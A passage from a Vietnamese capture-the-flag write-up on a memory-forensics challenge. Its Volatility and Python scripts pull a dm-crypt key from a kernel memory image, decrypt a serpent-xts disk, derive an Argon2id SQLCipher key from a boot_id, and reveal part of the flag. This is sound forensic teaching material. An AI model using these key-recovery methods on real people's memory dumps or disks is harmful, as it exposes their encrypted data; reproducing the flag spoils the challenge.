    return data[off]


def fmt_ptr(raw):
    if (raw >> 48) == 0xffff and raw < KERNEL_STATIC_BASE:
        return f"0x{raw & PTR_MASK_48:x} raw=0x{raw:016x}"
    return f"raw=0x{raw:016x}"


def find_pointers(data):
    end = CRYPTCONFIG_BASE + CRYPTCONFIG_LEN
    ptrs = []

    emit("[+] pointer candidates from crypt_config")
    emit(f"[+] source: {CC_FILE}")
    emit()

    for off in range(0, min(len(data), SCAN_LEN), 8):
        raw = struct.unpack_from("<Q", data, off)[0]

        # Only pointer-shaped values are kept here.
        # Numeric fields like 0x2000, iv_offset, sector_size are parsed later.
        if (raw >> 48) != 0xffff:
            continue

        # Skip kernel text/static/function pointers in the pointer-target dump phase.
        if raw >= KERNEL_STATIC_BASE:
            continue

        addr = raw & PTR_MASK_48

        # Skip pointers that point back into the crypt_config object itself.
        if CRYPTCONFIG_BASE <= addr < end:
            continue

        line = f"0x{off:03x} 0x{addr:x}  raw=0x{raw:016x}"
        emit(line)
        ptrs.append((off, addr, raw))

    emit()
    emit(f"[+] total pointer candidates: {len(ptrs)}")

    LOG_DIR.mkdir(exist_ok=True)
    with (LOG_DIR / "cryptconfig_ptrs_to_dump.txt").open("w") as f:
        for off, addr, raw in ptrs:
            f.write(f"0x{off:03x} 0x{addr:x} raw=0x{raw:016x}\n")

    emit(f"[+] wrote: {LOG_DIR / 'cryptconfig_ptrs_to_dump.txt'}")
    emit()

    return ptrs


def dump_pointer(off, addr):
    before = set(OUT_DIR.glob("*.bin"))

    cmd = [
        VOL,
        "-f", MEMORY,
        "-o", str(OUT_DIR),
        "linux.cryptconfigdump",
        "--address", hex(addr),
        "--length", hex(PTR_DUMP_LEN),
    ]

    log_path = LOG_DIR / f"ptr_0x{off:03x}_0x{addr:x}.txt"
    p = run(cmd, log_path)

    after = set(OUT_DIR.glob("*.bin"))
    new_files = sorted(after - before, key=lambda x: x.stat().st_mtime)

    if p.returncode != 0:
        emit(f"[-] dump failed for crypt_config+0x{off:03x} -> 0x{addr:x}")
        emit(f"[-] see log: {log_path}")
        return None

    if new_files:
        return new_files[-1]

    expected = OUT_DIR / f"crypt_config_0x{addr:x}_0x400.bin"
    if expected.exists():
        return expected

    emit(f"[-] no dump file detected for 0x{addr:x}")
    emit(f"[-] see log: {log_path}")
    return None


def print_pointer_dumps(ptrs):
    all_report = []
    interesting = []

    for off, addr, raw in ptrs:
        emit(f"[+] dumping crypt_config+0x{off:03x} -> 0x{addr:x}")

        dump_file = dump_pointer(off, addr)
        if not dump_file:
            continue

        data = dump_file.read_bytes()
        strs = extract_strings(data, min_len=3)

        block = []
        block.append("")
        block.append(f"===== {dump_file} =====")

        if strs:
            block.extend(strs[:80])
        else:
            block.append("<no printable strings>")

        text = "\n".join(block)
        emit(text)
        all_report.append(text)

        for s in strs:
            low = s.lower()
            if any(k in low for k in KEYWORDS):
                interesting.append(f"{dump_file}: {s}")

    ptr_strings = LOG_DIR / "cryptconfig_ptr_strings_view.txt"
    ptr_strings.write_text("\n".join(all_report) + "\n", encoding="utf-8", errors="replace")

    emit()
    emit("===== interesting hits =====")
    if interesting:
        for line in interesting:
            emit(line)
    else:
        emit("<none>")

    hits_file = LOG_DIR / "cryptconfig_interesting_hits.txt"
    hits_file.write_text("\n".join(interesting) + "\n", encoding="utf-8", errors="replace")

    emit()
    emit(f"[+] pointer list : {LOG_DIR / 'cryptconfig_ptrs_to_dump.txt'}")
    emit(f"[+] string report: {ptr_strings}")
    emit(f"[+] hit report   : {hits_file}")
    emit(f"[+] dump dir     : {OUT_DIR}")


def print_direct_fields(data):
    start = u64(data, 0x008)
    iv_offset = u64(data, 0x090)
    iv_size = u32(data, 0x098)
    sector_size = u16(data, 0x09c)
    sector_shift = u8(data, 0x09e)

    emit()
    emit("[crypt_config direct fields]")
    emit(f"+0x000 dev*                         {fmt_ptr(u64(data, 0x000))}")
    emit(f"+0x008 start/backing_offset_sectors 0x{start:x} ({start})")
    emit(f"+0x060 cipher_string*               {fmt_ptr(u64(data, 0x060))}")
    emit(f"+0x068 cipher_auth*                 {fmt_ptr(u64(data, 0x068))}")
    emit(f"+0x070 key_string*                  {fmt_ptr(u64(data, 0x070))}")
    emit(f"+0x078 iv_gen_ops*                  {fmt_ptr(u64(data, 0x078))}")
    emit(f"+0x090 iv_offset                    0x{iv_offset:x} ({iv_offset})")
    emit(f"+0x098 iv_size                      {iv_size}")
    emit(f"+0x09c sector_size                  {sector_size}")
    emit(f"+0x09e sector_shift                 {sector_shift}")
    emit(f"+0x0a0 cipher_tfm*                  {fmt_ptr(u64(data, 0x0a0))}")

    emit()
    emit("[consistency]")
    emit(f"byte offset = start * 512 = 0x{start * 512:x}")
    emit(f"sectors per crypto sector = 1 << sector_shift = {1 << sector_shift}")
    emit(f"sector_size from shift = 512 << sector_shift = {512 << sector_shift}")

    emit()
    emit("[dm-crypt params recovered from crypt_config]")
    emit(f"offset      = {start}")
    emit(f"iv_offset   = {iv_offset}")
    emit(f"iv_size     = {iv_size}")
    emit(f"sector_size = {sector_size}")
    emit(f"sector_shift= {sector_shift}")


def main():
    if not Path(MEMORY).exists():
        die(f"missing memory image: {MEMORY}")

    if shutil.which(VOL) is None:
        die("vol not found in PATH")

    LOG_DIR.mkdir(exist_ok=True)

    if OUT_DIR.exists():
        shutil.rmtree(OUT_DIR)
    OUT_DIR.mkdir(parents=True)

    ensure_cryptconfig_dump()

    data = CC_FILE.read_bytes()

    ptrs = find_pointers(data)
    print_pointer_dumps(ptrs)
    print_direct_fields(data)

    report = LOG_DIR / "cryptconfig_full_view_report.txt"
    report.write_text("\n".join(REPORT_LINES) + "\n", encoding="utf-8", errors="replace")

    emit()
    emit(f"[+] full report  : {report}")


if __name__ == "__main__":
    main()

```
ta sau khi chạy script ta thu được các giá trị quan trọng sau
```
cipher = serpent-xts-plain64 (thuật toán mã hóa gì, mode và cách tạo iv)

key type = logon
key description = cryptsetup:fee4d343-9d49-470d-8315-00fb0e3101a0-d0
```
từ key type và key descript ta sẽ cung cấp cho plugin linux.keyringdump để tìm ra key thật
```
┌──(venv)(vuanh㉿Vanh)-[/mnt/d/Data/chall/htb/chall5]
└─$ vol -f memory.elf -o keys linux.keyringdump --description 'cryptsetup:fee4d343-9d49-470d-8315-00fb0e3101a0-d0' --key
-type logon --expected-size 64
Volatility 3 Framework 2.28.0
Progress:  100.00               Stacking attempts finished
KeyAddress      Serial  Type    Description     PayloadAddress  Datalen Status  OutputFile

0x8a7284014300  897066674       logon   cryptsetup:fee4d343-9d49-470d-8315-00fb0e3101a0-d0      0x8a7281d6d000  64     SIZE_OK  logon_key_897066674_64_bytes.bin
```
kết hợp với kết quả từ script chạy từ trên ta hoàn toàn có đủ dữ kiện để giải ra được và mount file ra
```
[crypt_config direct fields]
+0x000 dev*                         0x8a72ab5230d8 raw=0xffff8a72ab5230d8
+0x008 start/backing_offset_sectors 0x2000 (8192)
+0x060 cipher_string*               0x8a728580d520 raw=0xffff8a728580d520
+0x068 cipher_auth*                 raw=0x0000000000000000
+0x070 key_string*                  0x8a728106bf80 raw=0xffff8a728106bf80
+0x078 iv_gen_ops*                  raw=0xffffffffc09be2a0
+0x090 iv_offset                    0x0 (0)
+0x098 iv_size                      16
+0x09c sector_size                  2048
+0x09e sector_shift                 2
+0x0a0 cipher_tfm*                  0x8a72812226a0 raw=0xffff8a72812226a0
```
sau đó ta sẽ decrypt cái file disk đề bài cho ban đầu bằng script này.
```
import ctypes
import ctypes.util
import struct
import sys
from pathlib import Path

IMAGE = Path("dev_disk.img")
KEY = Path("keys/logon_key_897066674_64_bytes.bin")
OUT = Path("dec/dev_volume.ext4")

IMAGE_OFFSET = 0x400000
PLAIN_LEN = 2088960 * 512
UNIT_SIZE = 2048
IV_OFFSET = 0

XTS_MODE = 13
ALGORITHM = b"SERPENT256"

def die(msg):
    print(f"[-] {msg}", file=sys.stderr)
    raise SystemExit(1)

def check(code, name):
    if code != 0:
        die(f"{name} failed: libgcrypt error {code}")

libname = ctypes.util.find_library("gcrypt")
if not libname:
    die("libgcrypt not found")

lib = ctypes.CDLL(libname)

lib.gcry_check_version.argtypes = [ctypes.c_char_p]
lib.gcry_check_version.restype = ctypes.c_char_p
lib.gcry_cipher_map_name.argtypes = [ctypes.c_char_p]
lib.gcry_cipher_map_name.restype = ctypes.c_int
lib.gcry_cipher_open.argtypes = [ctypes.POINTER(ctypes.c_void_p), ctypes.c_int, ctypes.c_int, ctypes.c_uint]
lib.gcry_cipher_open.restype = ctypes.c_uint
lib.gcry_cipher_setkey.argtypes = [ctypes.c_void_p, ctypes.c_void_p, ctypes.c_size_t]
lib.gcry_cipher_setkey.restype = ctypes.c_uint
lib.gcry_cipher_setiv.argtypes = [ctypes.c_void_p, ctypes.c_void_p, ctypes.c_size_t]
lib.gcry_cipher_setiv.restype = ctypes.c_uint
lib.gcry_cipher_decrypt.argtypes = [ctypes.c_void_p, ctypes.c_void_p, ctypes.c_size_t, ctypes.c_void_p, ctypes.c_size_t]
lib.gcry_cipher_decrypt.restype = ctypes.c_uint
lib.gcry_cipher_close.argtypes = [ctypes.c_void_p]

if hasattr(lib, "gcry_cipher_reset"):
    lib.gcry_cipher_reset.argtypes = [ctypes.c_void_p]
    lib.gcry_cipher_reset.restype = None

version = lib.gcry_check_version(None)
if not version:
    die("libgcrypt init failed")

algo = lib.gcry_cipher_map_name(ALGORITHM)
if algo == 0:
    die("SERPENT256 not supported by libgcrypt")

key = KEY.read_bytes()
if len(key) != 64:
    die(f"key must be 64 bytes, got {len(key)}")

handle = ctypes.c_void_p()
check(lib.gcry_cipher_open(ctypes.byref(handle), algo, XTS_MODE, 0), "gcry_cipher_open")

try:
    kbuf = ctypes.create_string_buffer(key, len(key))
    check(lib.gcry_cipher_setkey(handle, kbuf, len(key)), "gcry_cipher_setkey")

    OUT.parent.mkdir(parents=True, exist_ok=True)

    print(f"[+] image        : {IMAGE}")
    print(f"[+] output       : {OUT}")
    print(f"[+] cipher       : serpent-xts-plain64")
    print(f"[+] image offset : 0x{IMAGE_OFFSET:x}")
    print(f"[+] plain length : {PLAIN_LEN}")
    print(f"[+] unit size    : {UNIT_SIZE}")
    print(f"[+] iv_offset    : {IV_OFFSET}")

    done = 0
    next_report = 64 * 1024 * 1024

    with IMAGE.open("rb") as fin, OUT.open("wb") as fout:
        units = PLAIN_LEN // UNIT_SIZE

        for i in range(units):
            fin.seek(IMAGE_OFFSET + i * UNIT_SIZE)
            ct = fin.read(UNIT_SIZE)
            if len(ct) != UNIT_SIZE:
                die("short read from image")

            iv_sector = IV_OFFSET + i * (UNIT_SIZE // 512)
            iv = struct.pack("<Q", iv_sector) + b"\x00" * 8

            if hasattr(lib, "gcry_cipher_reset"):
                lib.gcry_cipher_reset(handle)

            ivbuf = ctypes.create_string_buffer(iv, len(iv))
            check(lib.gcry_cipher_setiv(handle, ivbuf, len(iv)), "gcry_cipher_setiv")

            inbuf = ctypes.create_string_buffer(ct, len(ct))
            outbuf = ctypes.create_string_buffer(len(ct))

            check(
                lib.gcry_cipher_decrypt(handle, outbuf, len(ct), inbuf, len(ct)),
                "gcry_cipher_decrypt",
            )

            fout.write(outbuf.raw[:len(ct)])
            done += len(ct)

            if done >= next_report:
                pct = done * 100 / PLAIN_LEN
                print(f"[+] {done}/{PLAIN_LEN} bytes ({pct:.1f}%)")
                next_report += 64 * 1024 * 1024

    print("[+] done")
    print(f"[+] wrote: {OUT}")

finally:
    lib.gcry_cipher_close(handle)

```

khi check trong src ta thấy 1 file là main.rs ở trong đó ta thấy cái này
```
use anyhow::{Context, Result};
use argon2::{Argon2, Params};
use base64::{Engine as _, engine::general_purpose};
use chacha20poly1305::{
    ChaCha20Poly1305, Nonce,
    aead::{Aead, KeyInit},
};
use clap::{Parser, Subcommand};
use rusqlite::Connection;
use std::fs;
use std::path::Path;
use zeroize::{Zeroize, Zeroizing};

const DB_PATH: &str = "/tmp/serpent.db";
const BOOT_ID_PATH: &str = "/proc/sys/kernel/random/boot_id";
const SALT: &[u8] = b"serpent_secure_salt_2026"; // Fixed salt for deterministic boot-bound key

#[derive(Parser)]
#[command(name = "serpent")]
#[command(about = "A secure boot-bound SQLite CRUD CLI", long_about = None)]
struct Cli {
    #[command(subcommand)]
    command: Commands,
}

#[derive(Subcommand)]
enum Commands {
    /// Initialize the database (scraps existing)
    Init,
    /// Create a new record
    Create { name: String, value: String },
    /// Read a record by name
    Read { name: String },
    /// Update an existing record
    Update { name: String, value: String },
    /// Delete a record by name
    Delete { name: String },
    /// List all records
    List,
    /// CRUD operations in the kernel user keyring
    Keyring {
        #[command(subcommand)]
        action: KeyringAction,
    },
}

#[derive(Subcommand)]
enum KeyringAction {
    /// Set a key in the keyring (encrypted with ChaCha20Poly1305)
    Set { name: String, value: String },
    /// Get a key from the keyring (decrypted with ChaCha20Poly1305)
    Get { name: String },
    /// Delete a key from the keyring
    Delete { name: String },
}

struct SecureKey(Zeroizing<[u8; 32]>);

fn get_boot_id() -> Result<String> {
    fs::read_to_string(BOOT_ID_PATH)
        .context("Failed to read boot_id. This tool requires a Linux system with /proc/sys/kernel/random/boot_id")
        .map(|s| s.trim().to_string())
}

fn derive_key(boot_id: &str) -> Result<SecureKey> {
    // High cost parameters for Argon2id: 256MB memory, 4 iterations
    let params = Params::new(262144, 4, 4, Some(32))
        .map_err(|e| anyhow::anyhow!("Invalid Argon2 params: {}", e))?;

    let argon2 = Argon2::new(argon2::Algorithm::Argon2id, argon2::Version::V0x13, params);

    let mut key_bytes = [0u8; 32];
    argon2
        .hash_password_into(boot_id.as_bytes(), SALT, &mut key_bytes)
        .map_err(|e| anyhow::anyhow!("KDF failed: {}", e))?;

    Ok(SecureKey(Zeroizing::new(key_bytes)))
}

fn get_connection(key: &SecureKey) -> Result<Connection> {
    let conn = Connection::open(DB_PATH)?;

    // SQLCipher keying
    let key_hex = hex::encode(&*key.0);
    let key_value = format!("x'{}'", key_hex);

    conn.pragma_update(None, "key", &key_value)
        .context("Failed to set encryption key via pragma")?;

    // Verify the key by trying a simple operation
    conn.query_row("SELECT count(*) FROM sqlite_master", [], |_| Ok(()))
        .context("Failed to unlock database (wrong key or corrupted)")?;

    Ok(conn)
}

fn init_db(key: &SecureKey) -> Result<()> {
    if Path::new(DB_PATH).exists() {
        fs::remove_file(DB_PATH).context("Failed to scrap existing database")?;
    }

    let conn = Connection::open(DB_PATH)?;
    let key_hex = hex::encode(&*key.0);
    let key_value = format!("x'{}'", key_hex);

    conn.pragma_update(None, "key", &key_value)
        .context("Failed to set encryption key via pragma during init")?;

    conn.execute(
        "CREATE TABLE IF NOT EXISTS records (
            name TEXT PRIMARY KEY,
            value TEXT NOT NULL
        )",
        [],
    )?;

    println!("Database initialized and encrypted with boot-bound key.");
    Ok(())
}

fn main() -> Result<()> {
    let cli = Cli::parse();

    // 1. Get boot_id
    let boot_id = get_boot_id()?;

    // 2. Derive key (costly PKDF)
    let key = derive_key(&boot_id)?;

    match cli.command {
        Commands::Init => {
            init_db(&key)?;
        }
        Commands::Create {
            mut name,
            mut value,
        } => {
            let conn = get_connection(&key)?;
            conn.execute(
                "INSERT INTO records (name, value) VALUES (?1, ?2)",
                [&name, &value],
            )
            .context("Failed to create record")?;
            println!("Record '{}' created.", name);
            name.zeroize();
            value.zeroize();
        }
        Commands::Read { mut name } => {
            let conn = get_connection(&key)?;
            let mut stmt = conn.prepare("SELECT value FROM records WHERE name = ?1")?;
            let mut value: String = stmt
                .query_row([&name], |row| row.get(0))
                .context("Record not found")?;
            println!("Value for '{}': {}", name, value);
            name.zeroize();
            value.zeroize();
        }
        Commands::Update {
            mut name,
            mut value,
        } => {
            let conn = get_connection(&key)?;
            let updated = conn
                .execute(
                    "UPDATE records SET value = ?2 WHERE name = ?1",
                    [&name, &value],
                )
                .context("Failed to update record")?;
            if updated == 0 {
                println!("Record '{}' not found.", name);
            } else {
                println!("Record '{}' updated.", name);
            }
            name.zeroize();
            value.zeroize();
        }
        Commands::Delete { mut name } => {
            let conn = get_connection(&key)?;
            let deleted = conn
                .execute("DELETE FROM records WHERE name = ?1", [&name])
                .context("Failed to delete record")?;
            if deleted == 0 {
                println!("Record '{}' not found.", name);
            } else {
                println!("Record '{}' deleted.", name);
            }
            name.zeroize();
        }
        Commands::List => {
            let conn = get_connection(&key)?;
            let mut stmt = conn.prepare("SELECT name FROM records")?;
            let rows = stmt.query_map([], |row| row.get::<_, String>(0))?;
            println!("Records:");
            for name_result in rows {
                let mut name = name_result?;
                println!(" - {}", name);
                name.zeroize();
            }
        }
        Commands::Keyring { action } => {
            // Initialize the Linux kernel keyring store (keyutils)
            keyring::use_named_store("keyutils")
                .context("Failed to initialize keyutils store. Is libkeyutils-dev installed?")?;

            match action {
                KeyringAction::Set {
                    mut name,
                    mut value,
                } => {
                    let entry = keyring_core::Entry::new("serpent", &name)?;

                    // 1. Setup ChaCha20Poly1305 with the derived boot-bound key
                    let cipher = ChaCha20Poly1305::new((&*key.0).into());

                    // 2. Generate a random nonce
                    use chacha20poly1305::aead::OsRng;
                    use chacha20poly1305::aead::rand_core::RngCore;
                    let mut nonce_bytes = [0u8; 12];
                    OsRng.fill_bytes(&mut nonce_bytes);
                    let nonce = Nonce::from_slice(&nonce_bytes);

                    // 3. Encrypt the value
                    let mut ciphertext = cipher
                        .encrypt(nonce, value.as_bytes())
                        .map_err(|e| anyhow::anyhow!("Encryption failed: {}", e))?;

                    // 4. Combine nonce + ciphertext
                    let mut combined = Vec::with_capacity(nonce_bytes.len() + ciphertext.len());
                    combined.extend_from_slice(&nonce_bytes);
                    combined.extend_from_slice(&ciphertext);

                    // 5. Encode in Base64
                    let encoded = general_purpose::STANDARD.encode(&combined);

                    // 6. Store in keyring
                    entry.set_password(&encoded)?;
                    println!("Key '{}' encrypted and set in keyring.", name);

                    name.zeroize();
                    value.zeroize();
                    ciphertext.zeroize();
                    combined.zeroize();
                }
                KeyringAction::Get { mut name } => {
                    let entry = keyring_core::Entry::new("serpent", &name)?;
                    let encoded = entry.get_password()?;

                    // 1. Decode from Base64
                    let mut combined = general_purpose::STANDARD
                        .decode(&encoded)
                        .context("Failed to decode Base64 from keyring")?;

                    if combined.len() < 12 {
                        return Err(anyhow::anyhow!("Invalid data in keyring (too short)"));
                    }

                    // 2. Split nonce and ciphertext
                    let nonce_bytes = &combined[..12];
                    let ciphertext = &combined[12..];
                    let nonce = Nonce::from_slice(nonce_bytes);

                    // 3. Setup ChaCha20Poly1305
                    let cipher = ChaCha20Poly1305::new((&*key.0).into());

                    // 4. Decrypt
                    let mut decrypted_bytes = cipher.decrypt(nonce, ciphertext).map_err(|e| {
                        anyhow::anyhow!("Decryption failed (is the boot_id the same?): {}", e)
                    })?;

                    let mut decrypted = String::from_utf8(decrypted_bytes.clone())?;

                    println!("Key '{}' from keyring: {}", name, decrypted);

                    name.zeroize();
                    combined.zeroize();
                    decrypted_bytes.zeroize();
                    decrypted.zeroize();
                }
                KeyringAction::Delete { mut name } => {
                    let entry = keyring_core::Entry::new("serpent", &name)?;
                    entry.delete_credential()?;
                    println!("Key '{}' deleted from keyring.", name);
                    name.zeroize();
                }
            }
        }
    }

    Ok(())
}
```
ở đây nó chỉ tới một db path là /tmp/serpent.db nhưng trong ổ đĩa này không có /tmp nên mình sẽ lấy từ recoverFs hồi nãy
```
const DB_PATH: &str = "/tmp/serpent.db";
const BOOT_ID_PATH: &str = "/proc/sys/kernel/random/boot_id";
const SALT: &[u8] = b"serpent_secure_salt_2026"; // Fixed salt for deterministic boot-bound key
```
sau đó ta dùng lệnh find để tìm trong 1 mớ pagecache dump ra từ nãy
```
┌──(vuanh㉿Vanh)-[/mnt/d/Data/chall/htb/chall5]
└─$ find -type f -path '*/tmp/serpent.db'
./pagecach_fs/a26d2fd4-06c1-4889-b938-86dd39635f24/tmp/serpent.db
```
trong toàn source thì ở đoạn này 
```
struct SecureKey(Zeroizing<[u8; 32]>);

fn get_boot_id() -> Result<String> {
    fs::read_to_string(BOOT_ID_PATH)
        .context("Failed to read boot_id. This tool requires a Linux system with /proc/sys/kernel/random/boot_id")
        .map(|s| s.trim().to_string())
}

fn derive_key(boot_id: &str) -> Result<SecureKey> {
    // High cost parameters for Argon2id: 256MB memory, 4 iterations
    let params = Params::new(262144, 4, 4, Some(32))
        .map_err(|e| anyhow::anyhow!("Invalid Argon2 params: {}", e))?;

    let argon2 = Argon2::new(argon2::Algorithm::Argon2id, argon2::Version::V0x13, params);

    let mut key_bytes = [0u8; 32];
    argon2
        .hash_password_into(boot_id.as_bytes(), SALT, &mut key_bytes)
        .map_err(|e| anyhow::anyhow!("KDF failed: {}", e))?;

    Ok(SecureKey(Zeroizing::new(key_bytes)))
}
```
nó cho ta biết đc key sẽ dài 32 bytes, đọc bootid rồi mang xuống hàm derive_key ta dùng thuật toán argon2id với pass lấy từ bootid dưới dạng bytes kết hợp với salt có từ trước để tạo ra key và lưu vào key_bytes
ta sẽ dùng 1 script python để lấy được key, đây là script mình dùng
```
#!/usr/bin/env python3
from argon2.low_level import hash_secret_raw, Type
import argparse

DEFAULT_BOOT_ID = "710d1eb0-9a77-4c9c-a148-a8dd002d8755"
SALT = b"serpent_secure_salt_2026"

def derive_sqlcipher_key(boot_id: str) -> str:
    boot_id = boot_id.strip()

    key = hash_secret_raw(
        secret=boot_id.encode(),
        salt=SALT,
        time_cost=4,
        memory_cost=262144,
        parallelism=4,
        hash_len=32,
        type=Type.ID,
        version=19,
    )

    return key.hex()

def main():
    parser = argparse.ArgumentParser(
        description="Derive the SQLCipher raw key for serpent.db"
    )
    parser.add_argument(
        "boot_id",
        nargs="?",
        default=DEFAULT_BOOT_ID,
        help="historical boot_id; default is the recovered boot_id"
    )
    parser.add_argument(
        "--raw-only",
        action="store_true",
        help="print only the raw key hex"
    )

    args = parser.parse_args()
    keyhex = derive_sqlcipher_key(args.boot_id)

    if args.raw_only:
        print(keyhex)
        return

    print(f"[+] boot_id : {args.boot_id.strip()}")
    print(f"[+] salt    : {SALT.decode()}")
    print("[+] kdf     : Argon2id v19, memory=262144, time=4, parallelism=4, out=32")
    print()
    print("[+] SQLCipher raw key hex:")
    print(keyhex)
    print()
    print("[+] DB Browser / SQLCipher raw key format:")
    print(f"x'{keyhex}'")
    print()
    print("[+] sqlcipher CLI:")
    print(f'PRAGMA key = "x\'{keyhex}\'";')

if __name__ == "__main__":
    main()
```
nó trả ra 3 output ta có thể xem ở db browser sqlcypher cli hay gì cx đc

output là
```
┌──(venv)(vuanh㉿Vanh)-[/mnt/d/Data/chall/htb/chall5]
└─$ python3 key.py
[+] boot_id : 710d1eb0-9a77-4c9c-a148-a8dd002d8755
[+] salt    : serpent_secure_salt_2026
[+] kdf     : Argon2id v19, memory=262144, time=4, parallelism=4, out=32

[+] SQLCipher raw key hex:
4af1975878abc3db67aa68d510f848d277f2854fb5cf9ac92906c23a769e46e4

[+] DB Browser / SQLCipher raw key format:
x'4af1975878abc3db67aa68d510f848d277f2854fb5cf9ac92906c23a769e46e4'

[+] sqlcipher CLI:
PRAGMA key = "x'4af1975878abc3db67aa68d510f848d277f2854fb5cf9ac92906c23a769e46e4'";
```
ta tìm đc part 1 của bài

HTB{v0l4t1l3_1uk52_d3crypt10n_

tiếp tục trong main.rs khi xuống hàm main mình có thấy 1 đoạn ntn
```
        Commands::Keyring { action } => {
            // Initialize the Linux kernel keyring store (keyutils)
            keyring::use_named_store("keyutils")
                .context("Failed to initialize keyutils store. Is libkeyutils-dev installed?")?;

            match action {
                KeyringAction::Set {
                    mut name,
                    mut value,
                } => {
                    let entry = keyring_core::Entry::new("serpent", &name)?;

                    // 1. Setup ChaCha20Poly1305 with the derived boot-bound key
                    let cipher = ChaCha20Poly1305::new((&*key.0).into());

                    // 2. Generate a random nonce
                    use chacha20poly1305::aead::OsRng;
                    use chacha20poly1305::aead::rand_core::RngCore;
                    let mut nonce_bytes = [0u8; 12];
                    OsRng.fill_bytes(&mut nonce_bytes);
                    let nonce = Nonce::from_slice(&nonce_bytes);

                    // 3. Encrypt the value
                    let mut ciphertext = cipher
                        .encrypt(nonce, value.as_bytes())
                        .map_err(|e| anyhow::anyhow!("Encryption failed: {}", e))?;

                    // 4. Combine nonce + ciphertext
                    let mut combined = Vec::with_capacity(nonce_bytes.len() + ciphertext.len());
                    combined.extend_from_slice(&nonce_bytes);
                    combined.extend_from_slice(&ciphertext);

                    // 5. Encode in Base64
                    let encoded = general_purpose::STANDARD.encode(&combined);

                    // 6. Store in keyring
                    entry.set_password(&encoded)?;
                    println!("Key '{}' encrypted and set in keyring.", name);

                    name.zeroize();
                    value.zeroize();
                    ciphertext.zeroize();
                    combined.zeroize();
                }
                KeyringAction::Get { mut name } => {
                    let entry = keyring_core::Entry::new("serpent", &name)?;
                    let encoded = entry.get_password()?;

                    // 1. Decode from Base64
                    let mut combined = general_purpose::STANDARD
                        .decode(&encoded)
                        .context("Failed to decode Base64 from keyring")?;

                    if combined.len() < 12 {
                        return Err(anyhow::anyhow!("Invalid data in keyring (too short)"));
                    }

                    // 2. Split nonce and ciphertext
                    let nonce_bytes = &combined[..12];
                    let ciphertext = &combined[12..];
                    let nonce = Nonce::from_slice(nonce_bytes);

                    // 3. Setup ChaCha20Poly1305
                    let cipher = ChaCha20Poly1305::new((&*key.0).into());

                    // 4. Decrypt
                    let mut decrypted_bytes = cipher.decrypt(nonce, ciphertext).map_err(|e| {
                        anyhow::anyhow!("Decryption failed (is the boot_id the same?): {}", e)
                    })?;

                    let mut decrypted = String::from_utf8(decrypted_bytes.clone())?;

                    println!("Key '{}' from keyring: {}", name, decrypted);

                    name.zeroize();
                    combined.zeroize();
                    decrypted_bytes.zeroize();
                    decrypted.zeroize();
                }
                KeyringAction::Delete { mut name } => {
                    let entry = keyring_core::Entry::new("serpent", &name)?;
                    entry.delete_credential()?;
                    println!("Key '{}' deleted from keyring.", name);
                    name.zeroize();
                }
            }
        }
    }
```
ta thấy rằng trong keyring action set nó đang lưu một nội dung gì đó đã được mã hóa vào keyring sau đó ở keyring action get thì nó giải mã cái value từ cái trên ra flow từ đây sẽ là ta mô phỏng lại theo get dump phần được lưu và rồi giải mã nó ra theo get
đầu tiên ta sẽ dùng plugin linux.keyringdump để dump keyring ra ta biết trong keyring nó sẽ chứa nhiều các key object
đây là script mình dùng để tìm ra
```
from volatility3.framework.objects import utility
import base64

ctx = self.context

kernel_name = getattr(self, "current_kernel_name", "kernel")
kernel = ctx.modules[kernel_name]

layer_name = kernel.layer_name
symbol_table = kernel.symbol_table_name

def norm(addr):
    addr = int(addr)
    if (addr >> 48) == 0xffff:
        return addr & 0x0000ffffffffffff
    return addr

def addr_candidates(addr):
    addr = int(addr)
    out = [addr]
    n = norm(addr)
    if n != addr:
        out.append(n)
    return out

def read_mem(addr, size):
    last = None
    for a in addr_candidates(addr):
        try:
            return ctx.layers[layer_name].read(a, size, pad=False)
        except Exception as e:
            last = e
    for a in addr_candidates(addr):
        try:
            return ctx.layers[layer_name].read(a, size, pad=True)
        except Exception as e:
            last = e
    raise last

def qword(addr):
    return int.from_bytes(read_mem(addr, 8), "little")

def object_at(type_name, addr):
    last = None
    for a in addr_candidates(addr):
        try:
            obj = ctx.object(f"{symbol_table}!{type_name}", layer_name=layer_name, offset=a)
            return obj, a
        except Exception as e:
            last = e
    raise last

def ptr_string(ptr, size=256):
    try:
        return utility.pointer_to_string(ptr, size)
    except Exception:
        return ""

def key_type_name(key):
    try:
        t = key.type.dereference()
        return ptr_string(t.name, 128)
    except Exception:
        return "?"

def key_description(key):
    try:
        return ptr_string(key.description, 512)
    except Exception:
        return ""

def type_offset(type_name, member):
    return ctx.symbol_space.get_type(f"{symbol_table}!{type_name}").relative_child_offset(member)

print(f"[+] kernel name        : {kernel_name}")
print(f"[+] kernel layer       : {layer_name}")
print(f"[+] symbol table       : {symbol_table}")

key_serial_tree = kernel.object_from_symbol(symbol_name="key_serial_tree")
key_serial_tree_addr = int(key_serial_tree.vol.offset)

try:
    root_node = int(key_serial_tree.rb_node)
except Exception:
    root_node = int(key_serial_tree.rb_root.rb_node)

serial_node_off = type_offset("key", "serial_node")
payload_off = type_offset("key", "payload")

try:
    payload_data_off = type_offset("user_key_payload", "data")
except Exception:
    payload_data_off = 0x18

print(f"[+] key_serial_tree    : 0x{key_serial_tree_addr:x}")
print(f"[+] root rb_node raw   : 0x{root_node:x}")
print(f"[+] root rb_node norm  : 0x{norm(root_node):x}")
print(f"[+] serial_node offset : 0x{serial_node_off:x}")
print(f"[+] key.payload offset : 0x{payload_off:x}")
print(f"[+] payload data offset: 0x{payload_data_off:x}")

visited = set()
total = 0
matches = 0

def walk_rb(node_addr):
    global total, matches

    if not node_addr:
        return

    node_norm = norm(node_addr)
    if node_norm in visited:
        return
    visited.add(node_norm)

    try:
        rb, rb_used = object_at("rb_node", node_addr)
    except Exception:
        return

    try:
        left = int(rb.rb_left)
    except Exception:
        left = 0

    try:
        right = int(rb.rb_right)
    except Exception:
        right = 0

    walk_rb(left)

    key_addr = rb_used - serial_node_off

    try:
        key, key_used = object_at("key", key_addr)
    except Exception:
        walk_rb(right)
        return

    total += 1

    try:
        serial = int(key.serial)
    except Exception:
        serial = -1

    try:
        state = int(key.state)
    except Exception:
        state = -1

    try:
        datalen = int(key.datalen)
    except Exception:
        datalen = 0

    typ = key_type_name(key)
    desc = key_description(key)

    interesting = False
    if typ in ("user", "logon"):
        interesting = True
    if "serpent" in desc.lower():
        interesting = True
    if "part_2" in desc.lower():
        interesting = True
    if desc.startswith("keyring:"):
        interesting = True

    if interesting:
        print()
        print("=" * 72)
        print(f"[+] key address       : 0x{key_used:x}")
        print(f"[+] serial            : {serial}")
        print(f"[+] type              : {typ!r}")
